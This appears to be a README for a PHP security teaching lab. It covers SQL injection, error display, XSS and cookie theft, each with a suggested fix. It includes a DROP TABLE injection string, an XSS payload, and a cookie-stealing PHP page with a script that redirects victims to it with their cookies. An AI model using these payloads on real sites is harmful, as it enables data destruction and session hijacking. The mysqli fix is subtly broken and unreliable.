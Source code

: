 ## SQL-Injection
### To proceed please navigate to the sql folder and import the sql file to phpmyadmin before accessing index.php

#### Problem: No Escape on Forms
* Let's assume that you create a simple form to take in user data.

``` PHP
<?php
$con = new PDO('mysql:host=localhost;dbname=sql_injection', 'root', ''); // connecting to db
//OR
$con = new mysqli("localhost", "root", "", "sql_injection");
?>

<!doctype html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Document</title>
</head>

<body>
<form action="" method="post" autocomplete="off">
    <label for="name">
        Email
        <input type="text" name="email">
    </label>
    <input type="submit" >
</form>
</body>
</html>
```
* Then you decide to process the form like someone normally would.

``` PHP
<?php
$con = new PDO('mysql:host=localhost;dbname=sql_injection', 'root', ''); // connecting to db

// OR
$con = new mysqli("localhost", "root", "", "sql_injection");

// processing form input
if (isset($_POST['email']))
{
    $email = $_POST['email'];
    $query = $con->query("SELECT * FROM users WHERE email = '{$email}'");
    // for PDO
    if ($query->rowCount())
    {
        echo "found an email address!";    
    }

    // for MYSQL
    if ($query->num_rows)
    {
        echo "found an email address!";    
    }
}

?>
// ... hidden body of the form
```
* The code above can seem normal but it is in fact extremely flawed

#### If I was a hacker and I would write queries to test whether the developer made sure to escape the input provided by users.

* Examples of queries I can execute in the email input bar.

```
'; DROP TABLE posts; --'
/* translates to the following query:
"SELECT * FROM users WHERE email = ''; DROP TABLE posts; --'");
*/
```

#### Solution:

* Use prepare statements or escape each string input

``` PHP
<?php
// for PDO
$query = $con->prepare("SELECT * FROM users WHERE email = :email ");
$query->execute(array('email'=>$email));

// for MYSQL
$email = $mysqli->real_escape_string($email);
 $con->query("SELECT * FROM users WHERE email = '($email)'");
 ?>
```
#### Problem: Errors

* Might sound strange but fatal errors provide information about problems with code that can include sensitive information like the database name, password, username, etc.

* When you go live, make sure to turn PHP errors off. But in test environments errors are encouraged.

#### Solution:

* In php.ini file change the 'display-errors' value to off when in production.

``` PHP
<?php
// to check whether errors are enabled
phpinfo();

//remotely changing the settings

error_reporting(0);
ini_set('display_errors', 'Off');

?>
```  

#### Problem: XSS (Cross-Site Scripting)

* Definition: Cross-site scripting, also known as XSS, is a type of computer security vulnerability typically found in web applications. XSS enables attackers to inject client-side scripts into web pages viewed by other users.

* Let's assume that we have a comments section in our application (index.php under xss folder). Even though we made sure to be sql-injection safe, we are not safe from malicious xss attacks.

    * I can put the `<script>` tags into the comment section:

    ``` JS
    <script>alert("i just got in by injecting this js script tag!! hahhahaha");</script>
    ```

    * If the developer then tried to show this data, in most crud system that is the case, then the javascript will execute on reload.

#### Solution:
* Simply employ the htmlspecialchars method on the post body to prevent injecting js into the database

``` PHP
$body =  htmlspecialchars($_POST['body'], ENT_QUOTES);
```
#### Problem: Stealing Cookies
* Assume that the htmlspecialchars method is not used and XSS problem still exists.
* A more damaging attack would be to redirect any user to a php file that steals cookies

* hacker file that was created to steal cookies

``` PHP
<?php
$cookie = $_GET['cookie'];
file_put_contents('mycookies.text', $cookie);
?>
<!doctype html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Document</title>
</head>
<body>


    <h1>Page not working</h1>


</body>
</html>
```
* If the hacker was to write the following the comment section and submit it to the database then each user accessing the comment section would be redirected to the file that steals their cookies

``` HTML
You are getting redirected and hacked!
<script>
window.location =
 'http://localhost/security/xss/hacker.php?cookie='+escape(document.cookie);
</script>
```
